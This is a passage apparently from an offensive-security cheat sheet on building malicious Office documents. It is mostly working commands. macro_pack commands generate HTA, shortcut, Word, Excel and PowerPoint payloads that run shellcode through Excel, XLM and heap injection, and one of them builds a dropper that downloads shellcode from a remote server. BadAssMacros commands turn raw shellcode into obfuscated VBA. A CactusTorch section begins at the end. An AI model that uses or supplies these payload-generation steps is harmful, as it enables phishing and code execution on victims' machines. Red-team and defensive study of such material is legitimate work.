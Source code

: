 ```powershell

# PRO: Generate an HTA payload able to run a shellcode via Excel injection
echo meterx86.bin meterx64.bin | macro_pack.exe -t AUTOSHELLCODE  --run-in-excel -o -G samples\nicepic.hta
echo meterx86.bin meterx64.bin | macro_pack.exe -t AUTOSHELLCODE -o --hta-macro --run-in-excel -G samples\my_shortcut.lnk

# PRO: XLM Injection
echo "MPPro" | macro_pack.exe -G _samples\hello.doc -t HELLO --xlm --run-in-excel

# PRO: ShellCode Exec - Heap Injection, AlternativeInjection
echo "x32calc.bin" | macro_pack.exe -t SHELLCODE -o --shellcodemethod=HeapInjection -G test.doc
echo "x32calc.bin" | macro_pack.exe -t SHELLCODE -o --shellcodemethod=AlternativeInjection --background -G test.doc

# PRO: More shellcodes
echo x86.bin | macro_pack.exe -t SHELLCODE -o -G test.pptm –keep-alive
echo "x86.bin" "x64.bin" | macro_pack.exe -t AUTOSHELLCODE -o –autopack -G sc_auto.doc
echo "http://192.168.5.10:8080/x32calc.bin" "http://192.168.5.10:8080/x64calc.bin" | macro_pack.exe -t DROPPER_SHELLCODE -o --shellcodemethod=ClassicIndirect -G samples\sc_dl.xls
```

## DOCM - BadAssMacros

> C# based automated Malicous Macro Generator.

* https://github.com/Inf0secRabbit/BadAssMacros

```powershell
BadAssMacros.exe -h

# Create VBA for classic shellcode injection from raw shellcode
BadAssMacros.exe -i <path_to_raw_shellcode_file> -w <doc/excel> -p no -s classic -c <caesar_shift_value> -o <path_to_output_file>
BadAssMacros.exe -i .\Desktop\payload.bin -w doc -p no -s classic -c 23 -o .\Desktop\output.txt

# Create VBA for indirect shellcode injection from raw shellcode
BadAssMacros.exe -i <path_to_raw_shellcode_file> -w <doc/excel> -p no -s indirect -o <path_to_output_file>

# List modules inside Doc/Excel file
BadAssMacros.exe -i <path_to_doc/excel_file> -w <doc/excel> -p yes -l

# Purge Doc/Excel file
BadAssMacros.exe -i <path_to_doc/excel_file> -w <doc/excel> -p yes -o <path_to_output_file> -m <module_name>
```


## DOCM - CACTUSTORCH VBA Module

> CactusTorch is leveraging the DotNetToJscript technique to load a .Net compiled binary into memory and execute it from vbscript
